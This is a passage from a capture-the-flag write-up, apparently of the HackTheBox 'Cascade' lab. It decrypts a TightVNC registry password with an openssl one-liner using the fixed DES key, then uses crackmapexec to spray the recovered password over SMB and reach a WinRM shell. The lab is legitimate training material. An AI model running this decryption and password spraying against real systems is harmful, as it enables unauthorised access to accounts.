 This file is a TightVNC registry file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-24.png)

Scrolling down, password hash is seen;

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-23.png)

From [here](https://github.com/frizb/PasswordDecrypts), we learned how to decrypt encrypted TightVNS password:

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-25.png)

Password is decrpyted to be **sT333ve2**. 

Spraying the cracked password on list of users, we get a match for s.smith:

`crackmapexec smb cascade.local -u users.txt -p sT333ve2`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-26.png)


s.smith is in the remote management group as well, which provides us a winrm shell:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-29.png)
